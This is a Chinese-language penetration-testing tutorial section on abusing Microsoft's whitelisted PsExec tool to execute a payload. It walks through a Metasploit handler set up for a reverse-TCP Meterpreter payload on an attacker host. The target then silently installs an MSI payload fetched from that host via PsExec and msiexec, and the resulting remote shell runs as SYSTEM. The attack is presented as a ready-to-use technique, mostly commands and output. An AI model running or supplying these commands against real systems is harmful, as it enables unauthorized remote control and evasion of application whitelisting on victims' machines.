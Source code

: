 ### 11.13 基于白名单PsExec执行payload（十三）

**PsExec简介：**

微软于2006年7月收购sysinternals公司，PsExec是SysinternalsSuite的小工具之一，是一种轻量级的telnet替代品，允许在其他系统上执行进程，完成控制台应用程序的完全交互，而无需手动安装客户端软件，并且可以获得与控制台应用程序相当的完全交互性。

**微软官方文档：**

    https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec
    
        

说明：PsExec.exe没有默认安装在windows系统。

攻击机： 192.168.1.4 Debian-
靶机： 192.168.1.119 Windows 2003

配置攻击机msf：

    msf exploit(multi/handler) > show options 
    
    Module options (exploit/multi/handler): 
    
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 
    
    Payload options (windows/meterpreter/reverse_tcp): 
    
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
    EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
    
    LHOST 192.168.1.4 yes The listen address (an interface may be specified)
    
    LPORT 53 yes The listen port 
    
    Exploit target: 
    
    Id Name
    ‐‐ ‐‐‐‐
    0 Wildcard Target 
    
    msf exploit(multi/handler) > exploit 
    
    [*] Started reverse TCP handler on 192.168.1.4:53
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010230707420.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**靶机执行：**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010230736324.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    PsExec.exe -d -s msiexec.exe /q /i <http://192.168.1.4/Micropoor_rev_x86_msi_53.txt>
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010230817391.png%23pic_center)

    msf exploit(multi/handler) > exploit 
    
    [*] Started reverse TCP handler on 192.168.1.4:53
    
    [*] Sending stage (179779 bytes) to 192.168.1.119
    
    [*] Meterpreter session 11 opened (192.168.1.4:53 ‐> 192.168.1.119:131) at 2019‐01‐20 05:43:32 ‐0500 
    
    meterpreter > getuid
    
    Server username: NT AUTHORITY\SYSTEM
    
    meterpreter > getpid
    
    Current pid: 728
    
    meterpreter >
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010230824278.png%23pic_center)

* * *